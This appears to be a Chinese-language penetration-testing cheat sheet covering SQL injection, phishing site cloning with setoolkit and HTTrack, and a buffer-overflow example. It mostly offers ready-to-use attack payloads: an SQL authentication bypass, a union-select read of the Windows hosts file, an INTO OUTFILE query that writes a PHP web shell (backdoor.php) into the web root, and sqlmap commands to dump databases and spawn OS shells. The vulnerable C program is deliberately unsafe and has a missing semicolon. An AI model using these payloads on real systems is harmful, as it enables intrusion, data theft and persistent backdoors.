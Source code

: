 
## sql注入

认证绕过:
any' or 1=1 limit 1;#

检测注入:
-sleep(5)

文件读取:
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6

文件写入:
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

sqlmap:
sqlmap -u http://192.168.30.35 --crawl=1                                            显示详细信息,适合初学者
sqlmap -u http://192.168.30.35/comment.php?id=738 --dbms=mysql --dump --threads=5   dump数据
sqlmap -u http://192.168.30.35/comment.php?id=738 --dbms=mysql --os-shell           执行系统命令
sqlmap -d "mssql://sa:sql123456@ip:1433/master" --os-shell                          知道数据库密码后提权成为交互式系统shell



# 社工

## setoolkit

132(输入需要克隆的网址)
傻瓜式工具,命令行运行后一直选就完事了


## httrack

获取帮助:
httrack --help

示例:
httrack http://www.xxx.com -O /tmp/xxx



# 缓冲区溢出

## 漏洞示例

```vuln.c
#include <stdio.h>
int main(int argc,char *argv[])
{
    char buffer[64];
    if (argc < 2)
    {
        printf("syntax error\r\n");
        printf("must supply at-least one argument\r\n")        //语法错误必须至少提供一个参数
        return(1);
    }

    strcpy(buffer,argv[1]);         //把参数1复制到buffer中
    return(0);
}

```
